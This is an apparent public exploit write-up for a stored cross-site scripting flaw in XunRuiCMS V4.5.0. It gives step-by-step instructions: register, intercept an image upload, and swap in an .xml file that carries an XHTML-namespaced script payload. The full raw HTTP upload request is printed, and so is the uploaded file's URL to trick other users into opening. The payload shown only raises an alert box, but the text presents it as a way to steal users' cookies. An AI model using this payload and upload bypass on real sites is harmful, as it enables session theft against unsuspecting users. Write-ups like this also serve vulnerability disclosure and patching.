

## Information

```c
Exploit Title:XunRuiCMS-V4.5.0-Cross Site Scripting(XSS)
Exploit date:26.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.xunruicms.com/
Affect Version:V4.5.0
Description:There is an XSS vulnerability in XunRuiCMS-V4.5.0. Attackers can steal users' cookies and other information by constructing malicious request packets
```

## How to Exploit

**Step 1：Register a user**

```javascript
http://192.168.174.1/index.php?s=member&c=register&m=index
```


**Step 2:login with test1**



**Step 3:Visit the following connections to add content**

```javascript
http://192.168.174.1/index.php?s=member&app=news&c=home&m=add
```


Upload a picture and grab it with burpsuite:


After that, change the action in the request packet to UploadFile, and modify the suffix of the uploaded file to. XML. At the same time, modify the file content to the following exp

```xml
<html>
	<head></head>
	<body>
	<something:script xmlns:something="http://www.w3.org/1999/xhtml">
	alert('xss');
	</something:script>
	</body>
</html>
```

```javascript
POST /index.php?s=api&c=file&token=791f80cd435d7a2e350c4d2235c94725&m=ueditor&image_reduce=0&attachment=0&is_wm=&rid=d1b9c89bd8165b2e46a19ebe133f1eac&action=uploadfile HTTP/1.1
Host: 192.168.174.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------19977857242961287651849315350
Content-Length: 372
Origin: http://192.168.174.1
Connection: close
Cookie: PHPSESSID=r9t36f9b1qok6079c54h41q61f; Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1621906612; Hm_lpvt_eaa57ca47dacb4ad4f5a257001a3457c=1621999942; loginfalse=0; xunruicms_fd8863ba386af397767b7e90ae5728d3=1gut09hupjp7jk79bi0naghgqmjic39n; fd8863ba386af397767b7e90ae5728d3_member_uid=2; fd8863ba386af397767b7e90ae5728d3_admin_login_member=0; fd8863ba386af397767b7e90ae5728d3_member_cookie=f466a2d4518d66bf9940
Upgrade-Insecure-Requests: 1

-----------------------------19977857242961287651849315350
Content-Disposition: form-data; name="upfile"; filename="1.xml"
Content-Type: image/png

<html>
	<head></head>
	<body>
	<something:script xmlns:something="http://www.w3.org/1999/xhtml">
	alert('xss');
	</something:script>
	</body>
</html>
-----------------------------19977857242961287651849315350--

```

After that, you can see the successful upload of the XML file:


After that, the attacker can cheat other users to view the file and trigger malicious XSS code:

```javascript
http://192.168.174.1/uploadfile/ueditor/file/202105/1622000649474d71.xml
```


## Reference

https://www.xunruicms.com/


